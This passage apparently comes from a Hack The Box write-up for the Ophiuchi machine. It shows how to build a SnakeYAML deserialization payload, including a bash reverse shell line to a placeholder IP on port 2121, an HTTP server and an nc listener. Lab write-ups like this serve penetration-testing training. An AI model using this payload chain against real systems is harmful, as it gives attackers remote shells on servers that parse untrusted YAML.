 ```bash
┌──(root💀f4T1H)-[~/…/ophiuchi/yaml-payload/src/artsploit]
└─> javac AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
```

After that create the `shell.sh` file and put a bash reverse shell, you can use following:
```bash
bash -c 'bash -i >& /dev/tcp/YOUR_IP_HERE/2121 0>&1'
```

The final folder structure should be look like this:
```bash
┌──(root💀f4T1H)-[~/hackthebox/ophiuchi/yaml-payload/src]
└─> tree                                         
.
├── artsploit
│   ├── AwesomeScriptEngineFactory.class
│   └── AwesomeScriptEngineFactory.java
├── META-INF
│   └── services
│       └── javax.script.ScriptEngineFactory
└── shell.sh

3 directories, 4 files
```
Open an http server in the src directory, start a nc listener on port `2121`, put the payload inside the text box and click parse.

![](src/shell.png)
